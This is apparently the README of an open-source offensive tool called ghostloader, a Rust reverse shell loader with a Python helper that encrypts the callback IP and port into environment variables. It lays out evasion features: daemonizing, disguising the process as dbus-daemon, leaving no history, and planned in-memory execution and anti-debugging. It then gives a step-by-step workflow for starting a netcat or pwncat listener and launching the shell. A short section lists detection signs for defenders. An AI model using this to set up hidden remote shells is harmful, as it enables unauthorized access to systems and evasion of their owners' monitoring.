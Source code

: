 # 👻 ghostloader


> 🔐 Runtime-only, encrypted reverse shell loader in Rust – with zero hardcoded IPs, keys, or ports. Payload data is provided securely via AES-GCM encrypted environment variables.

---

## 🎯 Project Goal

**ghostloader** is a hardened reverse shell launcher written in Rust, designed to avoid detection by:

- Not storing payloads in binaries
- Not using hardcoded IPs, ports, or cryptographic material
- Using AES-GCM encryption for runtime-loaded payloads
- Generating the decryption key from the host's UID + hostname
- Running in the background via daemonization (`fork()` + `setsid`)
- Obfuscating its process name (e.g., as `dbus-daemon`)
- Avoiding `.bash_history` or file system persistence

---

## 🧠 Concept Overview

The reverse shell destination (`IP + Port`) is encrypted with AES-GCM using:

- A **32-byte user-provided AES key**
- Combined with the current **UID** and **hostname**
- Encrypted data is stored in environment variables at runtime

> This allows **per-session or per-target shells** without needing to rebuild the binary. 

A Python helper script creates these environment variables for you.

---

## ⚠️ Blue Team Testing Notice

This project is intended for:

- **Blue Teams and Incident Response** to test defensive visibility
- **Red Team Simulations** in lab environments
- **CTF training** where payload customization is required

🚫 Do **not** use this tool in unauthorized environments.  
✅ Always have written permission when testing.

---

## 📦 Features

- ✅ No hardcoded secrets (IP, key, port, etc.)
- ✅ Random IV + AAD for each session (optional override)
- ✅ AES-GCM 256-bit encryption with host-specific derivation
- ✅ Built-in retries + jitter for resilience
- ✅ Clean Rust async + 'tokio' implementation
- ✅ `zeroize` on decrypted buffers and keys
- ✅ Fork/daemon shell, no direct parent
- ✅ Obfuscated process name (`dbus-daemon` or custom)
- ⏳ Planned: `memfd`, unlink-after-open, pipe-only, anti-debugging

---

## ⚙️ How It Works

1. Generate an **AES key**:
```bash
   export AES_KEY=$(openssl rand -hex 32)
   ```
2. Use the Python helper to create the encrypted payload:
```python
   python3 ghostloader.py 4444 --key "$AES_KEY"
```
3. Export the resulting environment variables:
```text
	export AES_KEY=...
	export ENC_PAYLOAD=...
	export ENC_IV=...
	export ENC_AAD=...
```
4. Run the ghostloader binary:
```text
	./ghostloader
```

### If decryption succeeds, the binary will:
- Spawn an interactive /bin/sh via reverse connection
- Retry up to 20x if offline (with jitter)
- Exit cleanly and securely if decryption or connection fails

# 🐍 Python: ghostloader.py
Helper to encrypt IP+port payloads for injection via env vars.

✅ Example:
```text
export AES_KEY=$(openssl rand -hex 32)
python3 ghostloader.py 4444 --loopback --key "$AES_KEY"
```

📦 Output:
```bash
Hostname: kali
UID: 1000

# --- Oneliner ENV export ---
export AES_KEY=... && export ENC_PAYLOAD=... && export ENC_IV=... && export ENC_AAD=...
# ----------------------------
```

| Argument     | Description                                |
| ------------ | ------------------------------------------ |
| `port`       | Port to connect back to (required)         |
| `ip`         | Optional IP (default: detected via `tun0`) |
| `--loopback` | Use `127.0.0.1` instead of external IP     |
| `--key`      | Required AES key (32-byte hex)             |
| `--iv`       | Optional static IV (12-byte hex)           |
| `--aad`      | Optional static AAD (8-byte hex)           |

# 🦀 Rust Binary: ghostloader
## 🔧 Build instructions

🦀 Compile with Cargo (optimized)
```text
git clone https://github.com/y0uall/ghostloader.git
cd ghostloader

# Build optimized binary
cargo build --release
strip target/release/ghostloader
```

## 🚀 Sample Workflow

```bash
# 1. Generate AES key
export AES_KEY=$(openssl rand -hex 32)

# 2. Encrypt the target IP + port
# ➤ If --loopback is used, the IP is set to 127.0.0.1
# ➤ If no IP is given, the script auto-detects your VPN IP via interface 'tun0'
python3 ghostloader.py 4444 --key "$AES_KEY"

# 3. Export the generated values (copied from Python output)
export AES_KEY=... && export ENC_PAYLOAD=... && export ENC_IV=... && export ENC_AAD=...

# 4. Start listener on your machine:
nc -lvnp 4444
pwncat-cs -lp 4444

# 5. Launch the ghostloader
./ghostloader
```

# 🔬 Detection Opportunities (for Blue Teams)

```text
- Suspicious parentless sh -i shells
- Connections to known C2 ports shortly after binary execution
- Reverse shell spawning from processes named dbus-daemon
- AES_KEY, ENC_* environment variables (from /proc/PID/environ)
- Short-lived child processes with dup2() on socket FDs
```

## 📁 Project Structure

```bash
.
ghostloader/
├── Cargo.toml
├── src/
│   └── main.rs
├── python
│   └── ghostloader.py
├── README.md
└── LICENSE
```

#❗Disclaimer

This project is provided for educational and research purposes only.
Use it only in authorized environments with proper permissions.
The authors are not responsible for misuse.

## 🧪 Future Ideas

- memfd_create and in-memory execution
- Encrypted config via pipe() or stdin
- Secure auto-clean of parent shell env
- Randomized timing logic
- Integration with C2 frameworks

## 🧠 Name Origin

- ghostloader = ephemeral, invisible, in-memory loader
- It's quiet, leaves no trace, and vanishes after use. 👻

Made with ❤️ for learning, testing, and advancing defense.

## License

This project is licensed under the [MIT License](LICENSE).
